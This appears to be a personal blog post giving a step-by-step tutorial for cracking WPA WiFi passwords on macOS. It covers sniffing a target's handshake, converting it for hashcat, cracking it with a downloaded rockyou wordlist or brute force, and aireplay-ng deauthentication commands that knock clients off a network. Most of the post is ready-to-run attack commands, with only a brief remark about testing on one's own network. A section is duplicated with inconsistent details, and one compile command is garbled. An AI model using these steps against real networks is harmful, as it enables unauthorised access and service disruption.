 ```yaml
---
title: WiFi Cracker in Mac OS X
date: 2020-01-12 23:04:34
categories:
tags:
---
```


Mac OS X comes with a suite of wireless diagnostic tools. To open them, hold down the option key on your keyboard and click on the Wi-Fi icon in the menu bar. Then click "Open Wireless Diagnostics..." and then click on Window > Scan. Find the target network, note its channel and width.

<!--more-->

# Capture a 4-way Handshake
With Wireless Diagnostics open, click on Window > Sniffer. Select the channel and width that you found in the previous step.
Now you'll need to wait for a device to connect to the target network. If you are testing this on your network (which you should be), reconnect a wireless device to capture a handshake.
Once you think you've got a handshake, click Stop.
The .wcap capture file will either be saved to your Desktop or /var/tmp/ depending on your operating system version.
Convert the capture file to .hccapx by uploading it to https://hashcat.net/cap2hccapx/. If you captured any handshakes, the site will start downloading a .hccapx file. No download will be prompted if you did not.

* With Wireless Diagnostics open, click on Window > Sniffer. Select the channel and width that you found in the previous step.
* Now you'll need to wait for a device to connect to the target network. If you are testing this on your network (which you should be), reconnect a wireless device to capture a handshake.
* Once you think you've got a handshake, click Stop.
The .pcap capture file will either be saved to your Desktop or /var/tmp/ depending on your operating system version.
* Convert the capture file to .hccapx by using https://github.com/hashcat/hashcat-utils in src folder compile to bin.
  
`gcc -o cap2hccapx cap2hccapx.c" and then run it: "./cap2hccapx"`

# Crack the password with hashcat

```
brew install hashcat
hashcat -m 2500 capture.hccapx wordlist.txt
# or brute force
hashcat -m 2500 -a3 capture.hccapx ?d?d?d?d?d?d?d?d
```

# Wordlist - Download the 134MB rockyou dictionary file

```
curl -L -o dicts/rockyou.txt https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt

```
Other bigger candidates: 
* https://github.com/berzerk0/Probable-Wordlists/tree/master/Real-Passwords/WPA-Length
* https://xa.to/10m

# Deauth Attack

## Get deauth Tool
```
brew install aircrack-ng
```
Find `aireplay-ng` in sbin.

```
# -0 2 specifies we would like to send 2 deauth packets. Increase this number
# if need be with the risk of noticeably interrupting client network activity
# -a is the MAC of the access point
# -c is the MAC of the client
aireplay-ng -0 2 -a 9C:5C:8E:C9:AB:C0 -c 64:BC:0C:48:97:F7 mon0
```
You can optionally broadcast deauth packets to all connected clients with:
```
# not all clients respect broadcast deauths though
aireplay-ng -0 2 -a 9C:5C:8E:C9:AB:C0 mon0
```


reference:

https://github.com/brannondorsey/wifi-cracking
https://louisabraham.github.io/articles/WPA-wifi-cracking-MBP.html